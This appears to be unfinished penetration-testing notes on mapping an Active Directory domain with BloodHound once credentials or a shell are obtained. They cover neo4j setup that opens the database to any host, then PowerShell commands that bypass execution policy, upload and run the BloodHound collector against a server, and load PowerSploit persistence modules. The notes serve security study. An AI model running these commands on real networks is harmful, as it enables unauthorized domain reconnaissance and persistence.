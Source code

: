 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound. Do the following:

- [Set up neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/)
- Run neo4j from `/opt/neo4j-community-3.1.1/bin/neo4j start`
- Navigate to localhost:7474 in your browser.
- Set a new password for the neo4j account.
- Edit neo4j.conf and set the following parameters to make any host be able to access the database.
```
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474
```
- Restart neo4j with  `/opt/neo4j-community-3.1.1/bin/neo4j restart`
- Launch bloodhound and log in to the neo4j database

This part is not finished
```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```


kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages
